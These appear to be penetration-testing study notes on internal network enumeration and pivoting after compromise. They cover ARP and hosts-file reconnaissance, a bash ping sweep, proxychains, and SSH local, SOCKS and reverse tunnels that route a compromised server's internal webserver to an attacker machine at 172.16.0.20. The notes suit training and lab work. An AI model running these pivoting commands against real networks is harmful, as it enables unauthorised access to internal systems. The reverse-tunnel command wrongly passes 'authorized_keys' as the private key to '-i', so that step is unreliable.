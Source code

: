 * ```arp -a``` can be used to check ARP cache, which shows any IP addresses that the target has interacted with recently.

* Static mappings can be found in ```/etc/hosts``` or ```C:\Windows\System32\drivers\etc\hosts```; ```/etc/resolv.conf``` may identify local DNS servers.

* On Windows, ```ipconfig /all``` is used to check DNS servers; on Linux, ```nmcli dev show```.

* One-liner for full ping sweep of 192.168.1.x network:

```for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done```

* For proxying, we open a port on our attacking machine, which is linked to compromised server, giving us access to target network.

* Common proxy tools:

  * ```Proxychains``` - scanning through ```Proxychains``` is slow; should be configured according to use.

  * ```FoxyProxy``` - used to access a webapp through proxy.

* SSH tunnelling / port forwarding using SSH client:

  * Forward (local) connections:

  ```shell
  ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
  #ssh access to 172.16.0.5, and webserver running on 172.16.0.10
  #we can then access website on localhost:8000 from attacker machine
  #-f backgrounds shell, -N for not executing any commands

  #for proxying
  ssh -D 1337 user@172.16.0.5 -fN
  #opens port 1337 on attacker machine for proxy
  #can be used with proxychains
  ```

  * Reverse connections:

  ```shell
  ssh-keygen
  #generates ssh keys reverse, reverse.pub

  cat reverse.pub
  #copy pubkey contents
  #paste in ~/.ssh/authorized_keys in attacker machine

  #paste this line in beginning of authorized_keys file
  command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty

  sudo systemctl start ssh
  #start ssh service

  #transfer private key to target box
  #discard ssh keys after engagement

  ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i authorized_keys -fN
  #if we have shell on 172.16.0.5
  #and we want to give attacker 172.16.0.20 access to webserver 172.16.0.10

  #on attacker machine
  #to close ssh connections
  ps aux | grep ssh

  sudo kill 105328
  ```
